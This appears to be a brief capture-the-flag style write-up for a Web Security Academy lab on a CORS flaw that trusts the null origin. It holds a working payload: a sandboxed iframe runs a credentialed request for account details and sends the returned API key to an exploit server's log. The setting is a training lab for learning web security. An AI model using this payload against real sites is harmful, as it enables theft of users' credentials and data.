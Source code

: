 # CORS vulnerability with trusted null origin
## Vuln
![image](https://user-images.githubusercontent.com/60841283/150383433-a93817a6-20ec-434f-8aa5-c420172d8408.png)

![image](https://user-images.githubusercontent.com/60841283/150383578-97c0e976-bee2-4350-968d-52c87b7f8c77.png)

## Exploit Server
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://acf11fd31fb5adf3c056df45005d0057.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='https://exploit-ac651f4e1ffaad35c06adfcb01d400eb.web-security-academy.net/log?key='+this.responseText;
};
</script>"></iframe>
```
### API Key
![image](https://user-images.githubusercontent.com/60841283/150383089-d62621b0-a6da-4a2c-b3fa-6107aeb77493.png)

